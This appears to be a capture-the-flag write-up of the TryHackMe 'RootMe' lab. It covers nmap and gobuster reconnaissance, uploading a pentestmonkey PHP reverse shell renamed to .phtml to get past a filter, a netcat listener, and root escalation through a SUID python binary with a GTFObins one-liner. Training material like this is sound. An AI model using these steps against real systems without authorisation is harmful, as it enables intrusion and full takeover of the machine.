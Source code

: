 # RootMe
This is a fun starter challenge from TryHackMe, it’s a free room, rated Easy. I’ll be showing the step-by-step and explain the process.

![RootMe](../Images/thm_rootme_1.png)

**Tools: nmap, gobuster, netcat.**

### Task 1 — Deploy the machine
First step is connecting to the THM’s VPN through OpenVPN in your machine (for example, your Kali VM) or use the in-browser THM AttackBox. After that, just click on Start Machine to load the VM.

### Task 2 — Reconnaissance
Scan the machine, how many ports are open?  

I ran this nmap SYN scan to get the open ports and services’ versions from the target machine, in my case it had the IP 10.10.73.226:
> nmap -n -sSV -Pn 10.10.73.226

![RootMe](../Images/thm_rootme_2.png)

The scan shows that the ports 22 and 80 are open, so…
> Answer: 2

**What version of Apache is running?**  
As shown in the scan…
> Answer: 2.4.29

**What service is running on port 22?**  
Once again, as shown in the scan…  
> Answer: SSH

**Find directories on the web server using the GoBuster tool.**  
*Hint: gobuster dir -u 10.10.73.226 -w WORDLIST_PATH*  
For this one you just need to click on the ‘Completed’.  

**What is the hidden directory?**  
I ran gobuster with the following command, to find the directories:  
> gobuster dir -u 10.10.73.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

![RootMe](../Images/thm_rootme_3.png)

We got a few results right away, and upon testing them we get the right answer…  
> Answer: /panel/

### Task 3 — Getting a Shell
**Find a form to upload and get a reverse shell, and find the flag.**  
*Hint: Search for “file upload bypass” and “PHP reverse shell”.* 
The file with the flag will be “user.txt”  
Upon accessing the /uploads/ directory, we see that it is empty. In the /panel/ directory, we see an upload form.  

![RootMe](../Images/thm_rootme_4.png)

I went to the following website to get the php reverse shell code (file):  
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
As shown in the instructions, you should download the file, extract it and change the following fields on the php-reverse-shell.php file, based on your host machine’s IP in the THM network, (in my case, 10.6.66.7), and your port of choice (you can leave the default port):  
> $ip = ‘127.0.0.1’;
> $port = 1234;

If you try to upload the .php file, you’ll receive a “PHP not allowed” error. The solution is to upload a phtml file (“.phtml files tell the webserver that those are html files with dynamic content which is generated by the server… just like .php files in a browser behave. So, in productive usage you should experience no difference from .phtml to .php files.” — taken from a StackOverflow post), so you just need to change its extension.  
I uploaded the file and upon checking the /uploads/ directory, I’ve confirmed that it was successfully uploaded.  


![RootMe](../Images/thm_rootme_5.png)

Next thing, I started a Netcat listening session on my machine, waiting for the reverse shell to call back:
> nc -vnlp 1234

After that, just click on the file in the /uploads/ directory, so it runs the command, and you’ll get a shell on your terminal.

![RootMe](../Images/thm_rootme_6.png)

It’s a simple (dumb) shell, so we still need to upgrade it to a fully interactive shell. To do that, we can use the following Python pty module to spawn the shell:
> python -c ‘import pty; pty.spawn(“/bin/bash”)’

You should get the fully interactive shell right away.  
Running a “find / -name user.txt” command, we find the “user.txt” file at “/var/www/”, so we just need to “cat /var/www/” to grab the flag.  

### Task 4 — Privilege escalation
**Search for files with SUID permission, which file is weird?**  
*Hint: find / -user root -perm /4000*  
Next, we run the suggested command, but we redirect any error output to /dev/null, so we get a clearer result:  
> find / -user root -perm /4000 2> /dev/null

Right away, we find a few options, so we can test some of them. Upon testing, we see that the Python file has the following permissions:

![RootMe](../Images/thm_rootme_7.png)

The file has the SUID and SGID permissions (the ‘s’ in the ‘execute’ fields of the permissions, instead of either ‘-’ or ‘x’). A file with SUID/SGID permissions will always execute as the user/group who owns the file. In this case, it’s root!
> Answer: /usr/bin/python

**Find a form to escalate your privileges.**  
*Hint: Search for gtfobins*  
Once again, you just need to click on the ‘Completed’.  

**root.txt**
As suggested previously, we took a look at [**GTFObins**](https://gtfobins.github.io/). More specifically, in the SUID section, Python row (click on the SUID box in this row). You’ll be redirected to [**here**](https://gtfobins.github.io/gtfobins/python/#suid). To get permanent root privileges, I ran the following command:
> /usr/bin/python -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’

![RootMe](../Images/thm_rootme_8.png)

Next up, we can search for the “root.txt” file:
> find / -name root.txt

![RootMe](../Images/thm_rootme_9.png)

And then we can finally read the file and get the last flag!
> cat /root/root.txt

**hat’s all folks!**  
Thanks for reading and keep hacking!
